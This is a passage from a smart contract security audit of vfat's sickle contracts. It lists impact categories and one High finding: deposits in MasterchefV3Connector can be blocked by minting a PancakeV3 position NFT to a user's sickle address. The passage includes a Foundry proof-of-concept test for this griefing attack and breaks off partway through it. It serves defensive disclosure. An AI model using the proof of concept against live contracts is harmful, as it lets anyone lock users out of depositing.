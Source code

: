 Findings are broken down into sections by their respective impact:

- Critical, High, Medium, Low Impact
  - These findings range from attacks that may cause loss of funds, impact control/ownership of the contracts, or cause any unintended consequences/actions that are outside the scope of the requirements.
- Gas savings
  - Findings that can improve the gas efficiency of the contracts.
- Informational
  - Findings including recommendations and best practices.

---

## Critical Findings

None.

## High Findings

### 1. High - `MasterchefV3Connector` deposits can be blocked

#### Technical Details

In `MasterchefV3Connector`'s `deposit()` there is a [check if the balance of the sickle is equal to 1, and if not, a revert occurs](https://github.com/vfat-io/sickle-contracts/blob/4f21de8cc1269dfbc05a3eeb5e792ec82012f11d/contracts/connectors/MasterchefV3Connector.sol#L32-L34). This can be DOS'd by minting NFTs to the sickle address such that a sickle can never deposit.

See the following POC using `PancakeV3.t.sol` for setup:

```solidity
function test_brick_deposit() public {
        // a random address w/ a lot of usdc and usdt
        address usdc_whale = 0x40ec5B33f54e0E8A33A975908C5BA1c14e5BbbDf;
        vm.startPrank(usdc_whale);
        // usdc but could be any token
        IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48).approve(address(Pancake.NFT_MANAGER), type(uint256).max);
        // usdt but could be any token
        SafeERC20.safeIncreaseAllowance(IERC20(0xdAC17F958D2ee523a2206206994597C13D831ec7), address(Pancake.NFT_MANAGER), type(uint256).max);

        INonfungiblePositionManager.MintParams memory params = INonfungiblePositionManager.MintParams({
            token0: address(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48),
            token1: address(0xdAC17F958D2ee523a2206206994597C13D831ec7),
            fee: 100,
            tickLower: -9,
            tickUpper: 12,
            amount0Desired: 6177807, // can be smaller than this, some random amount taken from an on-chain tx.
            amount1Desired: 7399999,
            amount0Min: 0,
            amount1Min: 0,
            recipient: address(ctx.sickle), // mint to the sickle so it can't be deposited to anymore
            deadline: block.timestamp + 60
        });

        INonfungiblePositionManager(Pancake.NFT_MANAGER).mint(params);

        vm.stopPrank();

        // reverts w/ SickleNftBalanceError()
```